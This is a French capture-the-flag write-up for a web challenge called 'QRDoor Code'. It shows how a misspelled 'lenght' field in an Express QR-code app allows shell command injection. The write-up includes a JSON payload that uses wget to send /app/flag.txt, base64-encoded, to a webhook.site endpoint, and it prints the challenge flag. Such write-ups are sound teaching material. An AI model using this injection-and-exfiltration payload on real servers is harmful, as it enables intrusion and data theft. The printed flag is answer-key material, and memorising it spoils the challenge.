






> **title:** QRDoor Code
>
> **category:** Web
>
> **difficulty:** Easy
>
> **point:** 50
>
> **author:** Eteck#3426
>
> **description:**
>
> A company needed a website, to generate QR Code. They asked for a freelance to do this job
> 
> Since the website is up, they've noticed weird behaviour on their server
> 
> They need you to audit their code and help them to resolve their problem
> 
> Flag is situed in /app/flag.txt
> 

## Solution

Le challenge permet de générer des QRCode à partir d'un texte qu'on lui envoie :



Le code source nous est donné :


Il s'agit d'un serveur **Express**, regardons un peu les différents chemins de l'app :

```js
app.get('/', async (req, res) => {
    res.render('index');
});

app.post('/generate', async (req, res) => {
    const { value } = req.body;
    try {
        let newQrCode;
        // If the length is too long, we use a default according to the length
        if (value.length > 150)
            newQrCode = new QRCode(null, value.lenght)
        else {
            newQrCode = new QRCode(String(value))
        }
        
        const code = await newQrCode.getImage()
        res.json({ code, data: newQrCode.value });
    } catch (error) {
        res.status(422).json({ message: "error", reason: 'Unknow error' });
    }
});
```

Le **`/`** n'est pas très intéressant, il n'y a rien.

Contrairement au **`/generate`** qui permet de générer le QRCode.

<br>

### Abus de la génération

On voit que si **`value.length > 150`**, alors on construit un QRCode vide avec pour nouvelle taille **`value.lenght`**.

Sauf que **`length != lenght`**

Ligne 10 on voit également : **`app.use(express.json());`**, autrement dit on peut envoyer du JSON et surcharger **`length`** et **`lenght`**.

Finalement, si notre **`value.length > 150`**, on lance la commande ligne 56 **`fortune -n ${defaultLength}`**.

Visuellement, le body que l'on POST se balade comme ça dans le code :



Avec le payload suivant, on peut donc injecter la commande et faire lancer une requête au serveur sur un endpoint (créé avec RequestBin, Webhook.site ou pour les moins flemmards sur un de ses propres serveurs) :

```js
{
    "value": {
        "length": 151,
        "lenght": "$(wget \"https://webhook.site/1fc2a58c-2952-49ec-90e7-8bb86ca6a667/?flag=$(cat /app/flag.txt | base64)\")"
    }
}
```

Ici j'ai utilisé Postman pour faire la requête :



Et voici ce que mon endpoint à reçu :



Ensuite il suffit de décoder (*sur **[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=VUZkT1RVVjdSVFJUZVY5UU16UnpTVjlDTkVOclpFOHdVbjBL)** par exemple*)




**`FLAG : PWNME{E4Sy_P34sI_B4CkdO0R}`**


